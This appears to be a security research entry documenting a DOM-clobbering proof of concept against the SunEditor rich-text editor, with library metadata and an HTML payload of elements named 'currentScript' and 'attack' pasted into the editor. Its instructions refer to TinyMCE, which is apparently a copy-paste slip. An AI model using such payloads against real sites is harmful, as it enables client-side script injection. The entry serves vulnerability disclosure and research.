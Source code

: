 ## SunEditor

### Meta

+ Library: SunEditor
+ Version: v2.47.0
+ Stars: 1.7K
+ Fingerprint: `typeof window.SUNEDITOR !== undefined`
+ Input: Copy&Paste
+ Sanitizer: N/A
+ Capability: `a` tag with `id`
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/JiHong88/SunEditor

### PoC

```html
<!--Library-->
<link href="https://cdn.jsdelivr.net/npm/suneditor@latest/dist/css/suneditor.min.css" rel="stylesheet">
<!-- <link href="https://cdn.jsdelivr.net/npm/suneditor@latest/assets/css/suneditor.css" rel="stylesheet"> -->
<!-- <link href="https://cdn.jsdelivr.net/npm/suneditor@latest/assets/css/suneditor-contents.css" rel="stylesheet"> -->
<script src="https://cdn.jsdelivr.net/npm/suneditor@latest/dist/suneditor.min.js"></script>
<!-- languages (Basic Language: English/en) -->
<script src="https://cdn.jsdelivr.net/npm/suneditor@latest/src/lang/ko.js"></script>

<textarea id="sample">Hi</textarea>
const editor = SUNEDITOR.create((document.getElementById('sample') || 'sample'),{
    // All of the plugins are loaded in the "window.SUNEDITOR" object in dist/suneditor.min.js file
    // Insert options
    // Language global object (default: en)
    lang: SUNEDITOR_LANG['ko']
});
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Copy & Paste the following rendered HTML elements to the editor and Run the following code: tinymce.activeEditor.getContent("default");</p>
<!--Payload-->
```